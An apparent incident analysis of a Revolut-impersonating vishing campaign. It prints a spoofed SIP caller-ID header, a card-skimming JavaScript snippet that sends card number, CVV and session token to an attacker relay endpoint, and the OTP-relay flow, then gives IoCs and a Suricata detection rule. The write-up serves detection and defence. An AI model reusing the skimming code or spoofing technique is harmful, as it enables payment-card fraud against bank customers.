

# Technical Analysis: Revolut Vishing & Telephony Infrastructure

**Case File Reference:** `SEC-2026-VISH-002`  
**Classification:** `TLP:CLEAR`  
**Investigation Date:** 10 August 2026  
**Primary Analyst:** `@stefanutc1`  
**Attack Vectors:** SIP VoIP Caller ID Spoofing, Smishing Redirects, Cloned Reverse Proxy, Real-Time OTP Exfiltration

---

## 1. Multi-Stage Attack Architecture

The campaign operates via a synchronized, dual-channel exploitation pipeline designed to bypass traditional 2FA/3DS safeguards by maintaining high-pressure psychological control over the target.



---

## 2. Telephony Subsystem & SIP Manipulation

### 2.1. Caller ID Spoofing Mechanics
Analysis of the incoming call metadata revealed that the threat actors utilized wholesale SIP trunk providers that omit cryptographic caller verification standards (STIR/SHAKEN).

- **Injected SIP Header Structure:**
  ```text
  INVITE sip:+407XXXXXXXX@sip.carrier-gateway.ro:5060 SIP/2.0
  Via: SIP/2.0/UDP 185.220.101.45:5060;branch=z9hG4bK-7291a
  From: "Revolut Fraud Dept" <sip:+40749000000@carrier-gateway.ro>;tag=82910fa
  To: <sip:+407XXXXXXXX@carrier-gateway.ro>
  Call-ID: c819f012b-3129-482a-9921-98721fa0@185.220.101.45
  CSeq: 102 INVITE
  Contact: <sip:asterisk@185.220.101.45:5060>
  P-Asserted-Identity: "Revolut Security" <sip:+40749000000@carrier-gateway.ro>
  ```
- **Operator Evasion:** The `+40749` allocation corresponds to genuine Romanian mobile ranges (Orange/Vodafone blocks), preventing common spam filters from auto-flagging the incoming call as international robocall traffic.

---

## 3. Web Cloning & In-Browser Interception Engine

### 3.1. Cloned Landing Interface Teardown
Targets were directed through shortened redirection URLs terminating on disposable Top-Level Domains (`.tk`, `.ml`, `.xyz`) protected with automated Let's Encrypt Domain Validated (DV) certificates.

- **DOM Inspection Findings:**
  - The CSS stylesheets, SVG logos, and fonts were scraped directly from legitimate Revolut marketing assets (`assets.revolut.com`).
  - Card input fields utilized client-side Luhn algorithm checksum validation (`luhnCheck()`) to ensure that victims did not submit fabricated dummy numbers, rejecting invalid inputs instantly before exfiltration.
  - The form handler intercepted submit events and transmitted payloads over HTTPS POST to `/api/v2/card/relay`.

```javascript
// Extracted client-side exfiltration snippet from phishing bundle
document.getElementById('verify-form').addEventListener('submit', async function(e) {
    e.preventDefault();
    const payload = {
        pan: document.getElementById('card-pan').value.replace(/\s+/g, ''),
        exp: document.getElementById('card-exp').value,
        cvv: document.getElementById('card-cvv').value,
        session_id: window.sessionToken
    };
    
    // Asynchronous exfiltration to attacker C2
    const res = await fetch('/api/v2/card/relay', {
        method: 'POST',
        headers: {'Content-Type': 'application/json'},
        body: JSON.stringify(payload)
    });
    
    // Transition UI to dynamic OTP waiting modal
    showOtpModal();
});
```

### 3.2. Real-Time OTP Interception Flow
The backend acted as an automated headless browser / API client:
1. As soon as the card details arrived at `/api/v2/card/relay`, the attacker's server-side worker initiated a payment or money transfer on a third-party merchant processor.
2. The merchant invoked Revolut's 3D Secure verification, triggering an authentic SMS OTP from Revolut to the victim's phone.
3. The phishing page dynamically rendered an OTP input modal claiming:  
   *"A 6-digit confirmation code was sent to your phone to reverse the pending charge. Enter it below within 120 seconds."*
4. Submitting this code sent it back to the attacker's worker, which completed the authorization challenge on the merchant processor.

---

## 4. Indicators of Compromise (IoCs)

| Indicator Type | Value / Pattern | Context / Classification | Action Taken |
| :--- | :--- | :--- | :--- |
| **Phone Prefix** | `+40749` | Domestic mobile allocation used in spoofed SIP headers | Logged & Reported |
| **Originating IP** | `185.220.101.45` | Bulletproof VPS hosting Asterisk SIP PBX | Blacklisted on OPNsense |
| **Phishing TLDs** | `.tk`, `.ml`, `.gq`, `.xyz` | Disposable TLDs used for ephemeral landing portals | Sinkholed to 0.0.0.0 |
| **Shortlink Provider**| `bit.ly/rev-verify-*` | Redirection mask to conceal phishing destination | Abuse Report Filed |
| **Exfiltration URI** | `/api/v2/card/relay` | C2 API receiver for card data and SMS OTPs | Suricata Rule Deployed |

---

## 5. Detection Engineering Signatures

### Suricata NIDS Rule for Gateway Inspection
```suricata
alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"THREAT-INTEL Revolut Phishing Card Exfiltration (/api/v2/card/relay)"; flow:established,to_server; http.method; content:"POST"; http.uri; content:"/api/v2/card/relay"; file_data; content:"pan"; content:"cvv"; content:"session_id"; classtype:credential-theft; sid:2026010; rev:1;)
```
